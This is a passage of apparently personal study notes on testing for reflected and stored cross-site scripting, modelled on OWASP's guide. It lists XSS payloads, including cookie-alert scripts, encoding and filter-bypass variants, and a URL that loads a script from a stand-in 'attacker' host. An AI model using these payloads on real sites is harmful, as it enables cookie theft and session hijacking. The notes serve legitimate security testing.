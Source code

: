 Examples :
1. check GET parameters - `http://...../index.php?user=<script>alert(document.cookie)</script>`
2. check GET parameters - `http://...../index.php?user=<script>window.onload=function(){alert(document.cookie)}</script>`
3. The user can use input value to fill an attribute - `<input type="text" value="INPUT_FROM_USER">` and then the tester submit `“ onfocus=”alert(document.cookie)`
4. Different syntax or encoding - Insert unexpected variations in the syntax or encoding
   - `"><script>.........</script>`
   - `%3cscript%e alert(document.cookie) %3c/script%3e`
5. Bypassing non recursive filtering - Often input sanitization is _applied only once_ 
   - `<scr<script>ipt> alert(document.cookie) </script>`
6. Including external script - Assume that there is a regular expression checking if "<script*" (_anything but >_) is inserted. eg `<script src="http://....../xss.js"></script>` - bypass this by using the ">" character in an attribute between _script_ and _src_
   - `http://example/?var=<SCRIPT%20a=”>”%20SRC=”http://attacker/xss.js”></SCRIPT>`
7. HTTP Parameter Pollution - Splitting the attack vector between multiple parameters that have the same name
   - regular attack - `http://example/page.php?param=<script>...</script>`
   - using HPP - `http://example/page.php?param=<script&param=>...</&param=script>`

### Tools
- OWASP CAL9000
- PHP Charset encoder
- HackVector
- XSS_Proxy
- Ratproxy
- Burp
- OWASP Zed Attack Proxy
- OWASP Xenotic XSS Expoloit Framework

## Testing for Stored Cross Site Scripting
When malicious inout is stored for late use. This malicious code will appear as of the website and run within the user's browser under the privileges of the web app. It includes at least two requests to the application and is also called second-order XSS.

Stored XSS does not need a malicious link to be exploited. A typical scenario has the following phases :
- attacker stores malicious code into the vulnerable page
- user authenticates in the platform
- user visits vulnerable page
- malicious code is executed by the user's browser

### Tests
- Identify all points where user input is stored into the backend and then displayed by the application. For example
  - user profile
  - shopping cart
  - application file manager (if file upload is allowed)
  - application settings/ preferences
  - forum/message board
  - blog (comments)
  - log (if it stores some user input into logs)
- Determine if input is stored and how it is positioned in the context of the page (html tag for javascript)
- All the out-of-band channels through which the application receives and stores user input
